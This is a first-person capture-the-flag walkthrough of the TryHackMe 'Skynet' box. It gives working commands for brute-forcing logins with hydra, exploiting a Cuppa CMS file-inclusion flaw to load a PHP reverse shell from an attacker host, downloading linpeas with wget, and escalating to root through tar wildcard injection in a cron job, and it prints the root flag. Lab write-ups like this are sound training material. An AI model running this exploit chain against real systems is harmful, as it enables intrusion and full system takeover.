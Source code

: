 
# TryHackMe — Skynet | Full Walkthrough

**Author:** Me (based on personal exploitation)  
**Difficulty:** Medium  
**Objective:** Gain root access and retrieve the flags

---

## Enumeration (Initial Recon)

I started by scanning the target IP (10.10.3.106) using nmap:

```bash
nmap -sC -sV -oN skynet-scan.txt 10.10.3.106
```

**Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
- 110 (POP3)
- 143 (IMAP)

I noted the POP3 and IMAP services—possible email credentials. The HTTP server was my initial target, so I opened it in the browser and also ran gobuster:

```bash
gobuster dir -u http://10.10.3.106 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

This revealed the directory `/squirrelmail`, which exposed a webmail login page.

---

## SquirrelMail: Email Bruteforce Attempt

I tried bruteforcing the login using hydra:

```bash
hydra -l milesdyson -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user"
```

I didn’t get a valid login here, so I moved on.

---

## BurpSuite + Hydra Attack on Admin Panel

I found an admin login panel at:

```
http://10.10.3.106/45kra24zxs28v3yd/administrator/
```

Using BurpSuite, I captured the request:

```http
POST /45kra24zxs28v3yd/administrator/
user=admin&password=admin&task=login
```

From this, I crafted a hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.3.106 http-post-form "/45kra24zxs28v3yd/administrator/:user=^USER^&password=^PASS^&task=login:Incorrect username or password"
```

Still no valid credentials, so I suspected a possible vulnerability in the CMS instead.

---

## Cuppa CMS Vulnerability — LFI Exploit

After some research on the page source, I found the CMS was Cuppa CMS.

I searched for exploits:

```bash
searchsploit cuppa
```

Which led me to the following LFI vulnerability:

```bash
/cuppa/alerts/alertConfigField.php?urlConfig=[LFI]
```

I confirmed it with:

```bash
curl "http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd"
```

This successfully dumped `/etc/passwd` — LFI confirmed

---

## Remote Code Execution via PHP Wrapper (LFI + RCE)

My goal now was to turn this LFI into RCE. I checked `/proc/self/environ` to try and inject a PHP payload via the User-Agent:

```bash
curl -A '<?php system($_GET["cmd"]); ?>' "http://10.10.3.106/45kra24zxs28v3yd/"
```

Then I accessed:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../proc/self/environ&cmd=id
```

But I didn’t get code execution here, so I moved on to remote inclusion.

---

## Remote File Inclusion + PHP Reverse Shell

I used the LFI param to try RFI:

```bash
http://10.10.3.106/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.86.132:8000/php-reverse-shell.php
```

I hosted the reverse shell locally:

```bash
cd /usr/share/webshells/php
sudo cp php-reverse-shell.php ~/Documents
nano ~/Documents/php-reverse-shell.php  # set IP and port
cd ~/Documents
python3 -m http.server 8000
```

I listened on port 4444:

```bash
nc -lvnp 4444
```

After triggering the RFI URL, the reverse shell connected!

I had a shell as:  
**User:** www-data

---

## Privilege Escalation — Enumerating the Box

From the shell, I ran:

```bash
uname -a
whoami
```

Then I downloaded linpeas.sh:

```bash
wget http://10.13.86.132:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

This showed a cron job running every minute as root:

```bash
*/1 * * * * root /home/milesdyson/backups/backup.sh
```

---

## Wildcard Injection in Tar — PrivEsc to Root

I inspected `/home/milesdyson/backups/backup.sh`:

```bash
cd /home/milesdyson/backups
cat backup.sh
```

It runs:

```bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Although I couldn't edit backup.sh, I could write into `/var/www/html`, which is where it runs the tar command. This is vulnerable to wildcard injection.

### Exploiting Tar’s --checkpoint-action

I did the following:

```bash
# Create a script that sets SUID on /bin/bash
echo -e '#!/bin/bash
chmod +s /bin/bash' > /var/www/html/root_shell.sh

# Craft the tar wildcard options
touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint-action=exec=sh root_shell.sh"
```

After waiting 1 minute for the cron job, I checked:

```bash
ls -l /bin/bash
```

And saw the SUID bit set!

Now I ran:

```bash
/bin/bash -p
whoami
```

And I got: **root**

---

## Root Flag

Finally, I went to `/root` and grabbed the flag:

```bash
cd /root
cat root.txt
```

**Flag:** `3f0372db24753accc7179a282cd6a949`

---

## Summary

| Stage           | Method                                      |
|----------------|---------------------------------------------|
| Enumeration     | Nmap, Gobuster                              |
| Initial Access  | LFI + RFI via Cuppa CMS                     |
| Reverse Shell   | php-reverse-shell.php over HTTP             |
| Post-Enum       | linpeas.sh                                  |
| PrivEsc         | Wildcard Injection in tar via cron          |
| Root            | SUID /bin/bash trick                        |
| Root Flag       | ✅ Captured                                 |

---

## Lessons Learned

- Always test `/proc/self/environ` for LFI-RCE
- Wildcard injection in tar is powerful when `*` is used in cronjobs
- Having write access to a cron-executed directory can be lethal
- Enumeration is everything: linpeas and manual review were crucial
